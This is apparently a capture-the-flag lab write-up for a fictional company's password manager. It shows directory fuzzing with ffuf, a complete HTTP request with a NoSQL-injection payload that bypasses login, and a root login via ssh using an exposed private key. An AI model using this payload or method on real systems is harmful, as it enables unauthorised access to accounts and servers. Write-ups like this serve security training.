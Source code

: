 #+title: Cyber Vault
#+author: gabriel

* intro
In light of the recent increase in cyber-attacks around the world, as a cybersecurity firm, you have been assigned to perform penetration testing on the systems of a company called ValkyrieDigital.

Your task is to perform a vulnerability scan on the password management software used by the company and report your findings.

Good luck!

* initial scans
Directory fuzzing ->
#+begin_src sh
[12:54][]~ ✮ ffuf -u "http://passwise.valkyriedigital.hv/FUZZ" -w SecLists/Discovery/Web-Content/raft-large-
directories.txt -fc 302 -s
images
js
css
login
Login
font
#+end_src

This lab is vulnerable to NoSQLinjection, is possible to bypass the login page with this payload ->
#+begin_src sh
POST /login HTTP/1.1
Host: passwise.valkyriedigital.hv
Content-Length: 54
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://passwise.valkyriedigital.hv
Referer: http://passwise.valkyriedigital.hv/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

{"email":{"$regex":"admin.*"},"password":{"$ne":null}}
#+end_src

With the regex on the email field, is possible to get the email which starts with admin*

* exploit

After bypass the login page, get the SSH Server password, to access the server and response the awnsers

To get root use the root ssh file in the /home directory ->
#+begin_src sh
sherpa@debian:/home$ ls
root_id_rsa  root_id_rsa.pub  sherpa
sherpa@debian:/home$
#+end_src

Connect as root ->
#+begin_src sh
ssh -i root_id_rsa root@172.20.12.115
#+end_src

